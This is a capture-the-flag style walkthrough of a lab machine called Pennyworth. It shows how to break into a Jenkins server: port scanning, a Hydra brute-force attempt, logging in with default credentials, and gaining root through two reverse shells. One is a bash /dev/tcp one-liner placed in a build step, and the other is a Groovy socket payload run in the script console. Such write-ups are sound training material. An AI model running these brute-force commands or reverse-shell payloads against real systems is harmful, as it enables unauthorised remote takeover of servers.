

# MACHINE - PENNYWORTH

IP: 10.129.242.203

Type: Linux

---

## OPEN PORTS

```
$ nmap -sVC -T4 -Pn -p- {IP}
```

[1] 8080/tcp HTTP **Jetty 9.4.39.v20210325** (25/03/2021)

- `http-robots.txt` disallowed entry

> *Jetty* is a Java web server and Java Servlet container. While web servers are
> usually associated with serving documents to people, Jetty is now often used for
> machine to machine communications, usually within larger software frameworks. 

> *Jakarta Servlet*, formely *Java Servlet* is a Java software component that extends
> the capabilities of a server. Although servlets can respond to many types of requests
> they most commonly implemet web containers for hosting web applications on web
> servers and thus qualify as a server-side servlet web API. 

---

## OPEN THE SITE

- The 'home page' of the site is the Jenkins login page

```
http://{IP}:8080/login?from=%2F
```

- `%2F` is the URL encoded value for the `/` symbol

> *Jenkins* is an open source CI/CD (Continuous Integration/Continuous Deployment)
> server written in Java. It is a multiplatform tool, in fact it includes packages for
> Linux, Mac OS and Windows. 

- Looking at the Source code of the page.
- It is quite a caos. We can use a beautifier to make it readable.
- There is nothing too much strange here ... 
- Looking at the cookies ... There is one

```
JSESSIONID.10959053=node0nraybqg1q9qwyn3sn19dz2jk0.node0
```

---

## LOGIN BRUTEFORCE

- Tried to login with admin:admin. This is the request that is done



- Obviously the login failed ...
- We can try to use Hydra to bruteforce it

```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 -t 4 \
	{IP} http-form-post "/j_spring_security_check:j_username=^USER^"\
	"&j_password=^PASS^&from=%2F&Submit=Sign+in&remember_me=on"\
	":H=Cookie\: JSESSIONID.b945217e=node01m7fv5t9913qk1wte6c07ab7hl0.node0" \
	":H=Referer\: http\://10.129.242.228\:8080/login?from=%2F" \
	":H=Origin\: http\://10.129.242.228\:8080/"
	":F=Invalid username or password"
```

- We obtain no result ... Hydra failed
- However, there are a bunch of default username and passwords that we can try
- The combination `root`:`password` worked and we are now on the Jenkins admin page

JENKINS VERSION: 2.289.1

JENKINS SCRIPTING LANGUAGE: *Groovy*

> *Groovy* is a powerful, optionally typed and dynamic language, with syntax-typing and static compilation
> capabilities, for the Java platform aimed at improving developer productivity thanks to a concise, 
> familiar and easy to learn syntax.

- Now, we can run a directory enumeration to see what we can access

```
$ gobuster dir -u http://{IP}:8080/ \
	-w /usr/share/wordlists/dirb/common.txt \
	-c "JSESSIONID.10959053=node0nraybqg1q9qwyn3sn19dz2jk0.node0"
```

- We can see that there is a `script` page

---

## RUNNING REVERSE SHELL

- There are two possible ways

1. Using the building features to run a classical bash reverse shell
2. Using the scripting panel

### RUNNING USING BUILD FEATURE

- Click on the *Groovy Script* Item
- Then `Configure > Source Code Management > Build > Add Build Step > Execute Shell`
- Paste the command

```
/bin/bash -c 'exec bash -i &> /dev/tcp/{MyIP}/{remote-port} <&1'
```

- Save the changes

- Then on your local machine start a netcat listener

```
$ nc -lvnp {remote-port}
```

- Return to the Jenkins page and click on `Build Now`.
- The reverse shell is up, we are root and the flag is in `root/flag.txt`

### RUNNING USING GROOVY SCRIPT

- Go to `http://{IP}:8080/script`
- This is the payload we need to use

```
String host="{MyIP}";
int port={remote-port};
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- Start the usual netcat listener

```
$ nc -lvnp {remote-port}
```

- Launch the script
- The reverse shell is up, we are root and the flag is in `root/flag.txt`
